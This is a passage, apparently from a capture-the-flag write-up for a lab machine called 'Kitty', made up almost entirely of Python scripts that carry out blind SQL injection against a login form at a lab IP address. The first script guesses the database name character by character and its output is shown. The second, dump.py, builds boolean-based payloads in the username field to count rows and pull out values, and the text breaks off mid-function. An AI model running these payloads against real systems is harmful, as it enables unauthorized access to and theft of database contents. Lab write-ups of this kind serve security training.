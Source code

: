 ```bash
	'Referer': 'http://10.201.19.107/index.php',
	'Upgrade-Insecure-Requests': '1'
}
result = ''
while True:
	for elem in probe:
		query = "' UNION SELECT 1,2,3,4 where database() like '{sub}%';-- -".format(sub=result+elem)
		data = {
		    'username': query,
		    'password': '123456'
		}
		response = requests.post(url, headers=headers, data=data,allow_redirects=True)
		#print("Size of Response Content:", len(response.content), "bytes")
		if(len(response.content) == 618):
			result += elem
			break
		if(elem == probe[-1]):
			print('\033[K')
			print(result)
			exit()
		if(elem != "\n"):
			print(result+elem,end='\r')
```

```bash
:~/Kitty# python3 test.py

mywebsite
```



```bash
:~/Kitty# cat dump.py
#!/usr/bin/env python3

import requests

target_url = "http://10.201.19.107/index.php"
valid_username = "lili"

def send_payload(data):
	r = requests.post(target_url, data=data)
	if "Invalid username or password" not in r.text:
		return True
	return False

def get_count(column, database_table, sql_filter = ""):
	for i in range(1, 10):
		if send_payload({"username":f"{valid_username}' and (select count({column}) from {database_table} {sql_filter})={str(i)}-- -","password":"asd"}):
			return i
	return 0

def get_value_len(index, column, database_table, sql_filter = ""):
	for i in range(1, 30):
		if send_payload({"username":f"{valid_username}' and length((select {column} from {database_table} {sql_filter} limit {str(index)}, 1))={str(i)}-- -","password":"asd"}):
			return i
	return 0

def extract_values(column, database_table, sql_filter = ""):
	values = []
	value_row_count = get_count(column, database_table, sql_filter)
```